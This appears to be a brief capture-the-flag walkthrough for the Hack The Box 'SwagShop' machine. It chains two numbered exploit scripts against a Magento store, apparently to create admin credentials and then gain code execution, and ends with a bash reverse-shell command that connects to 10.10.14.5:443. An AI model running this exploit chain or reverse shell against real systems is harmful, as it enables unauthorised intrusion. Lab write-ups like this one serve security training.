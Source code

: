 # swagshopHTB

1. python 37977.py

2. create account and purchase item 

3. login to admin portal with creds forme:forme

4. create invoice and shop order

5. python 37811.py http://10.10.10.140/index.php/admin "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"
